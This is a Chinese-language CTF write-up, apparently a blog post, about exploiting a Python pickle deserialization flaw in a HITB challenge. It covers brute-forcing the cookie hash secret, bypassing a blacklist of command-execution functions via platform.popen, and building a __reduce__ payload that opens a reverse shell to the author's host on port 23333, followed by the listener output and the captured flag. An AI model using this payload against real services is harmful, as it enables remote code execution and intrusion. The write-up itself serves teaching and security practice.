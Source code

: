 ```python
```
主要就是这个loads函数，利用了pickle这个库，对数据进行了反序列化，导致反序列化漏洞的产生 寻找一下调用关系
```
reminder-->getlocation()-->loads()
```
其中反序列化的原始信息以base64以及哈希后的值，被保存在cookie的location中，当哈希值与base64值不相同时会重置cookie 哈希的内容中除了反序列化的base64还有一个随机数
```python
    secret = ''.join(random.choice(string.ascii_letters + string.digits) for x in range(4))
```
四位数的随机数，可以利用最初的cookie爆破一下这个随机数（4\*\*62,大概一千多万） 
最后的结果`hitb` 有了这个随机数，我们就可以生成自己的恶意cookie，绕过哈希验证了 接下来就时构造恶意函数的时候了，代码中黑名单过滤了好多函数（当时就是被卡死在这里）
```python
black_type_list = [eval, execfile, compile, open, file, os.system, os.popen, os.popen2, os.popen3, os.popen4, os.fdopen, os.tmpfile, os.fchmod, os.fchown, os.open, os.openpty, os.read, os.pipe, os.chdir, os.fchdir, os.chroot, os.chmod, os.chown, os.link, os.lchown, os.listdir, os.lstat, os.mkfifo, os.mknod, os.access, os.mkdir, os.makedirs, os.readlink, os.remove, os.removedirs, os.rename, os.renames, os.rmdir, os.tempnam, os.tmpnam, os.unlink, os.walk, os.execl, os.execle, os.execlp, os.execv, os.execve, os.dup, os.dup2, os.execvp, os.execvpe, os.fork, os.forkpty, os.kill, os.spawnl, os.spawnle, os.spawnlp, os.spawnlpe, os.spawnv, os.spawnve, os.spawnvp, os.spawnvpe, pickle.load, pickle.loads, cPickle.load, cPickle.loads, subprocess.call, subprocess.check_call, subprocess.check_output, subprocess.Popen, commands.getstatusoutput, commands.getoutput, commands.getstatus, glob.glob, linecache.getline, shutil.copyfileobj, shutil.copyfile, shutil.copy, shutil.copy2, shutil.move, shutil.make_archive, dircache.listdir, dircache.opendir, io.open, popen2.popen2, popen2.popen3, popen2.popen4, timeit.timeit, timeit.repeat, sys.call_tracing, code.interact, code.compile_command, codeop.compile_command, pty.spawn, posixfile.open, posixfile.fileopen]
```
最后，看了下大佬用的函数（说实话我也不是很清楚干啥的，应该也是执行一些系统命令）

platform.popen

接下来构造序列化函数
```python
    import cPickle
    class genpoc(object):
    	def __reduce__(self):
    		import platform
    		return (platform.popen,("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"自己的IP\",23333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'",)) 
    
    e = genpoc()
    shell_code = cPickle.dumps(e)
    
    with open('./1.txt','wb') as f:
    	f.write(shell_code)
```
将序列话后的代码进行base64加密，然后再与hitb进行sha256哈希，构造对应的cookie 在自己的主机上`nc -nvlp 23333` 然后来到reminder页面，刷新，并替换cookie ![](http://blog.kingkk.com/wp-content/uploads/2018/04/65310fbee0c40baf385649ee2b508b95.png) 成功反向连接
```
Ncat: Version 6.40 ( http://nmap.org/ncat )
Ncat: Listening on :::23333
Ncat: Listening on 0.0.0.0:23333
Ncat: Connection from 47.75.151.118.
Ncat: Connection from 47.75.151.118:54836.
/bin/sh: 0: can't access tty; job control turned off
$
```
得到flag

$ cat flag\_is\_here
HITB{Py5h0n1st8eBe3tNOW}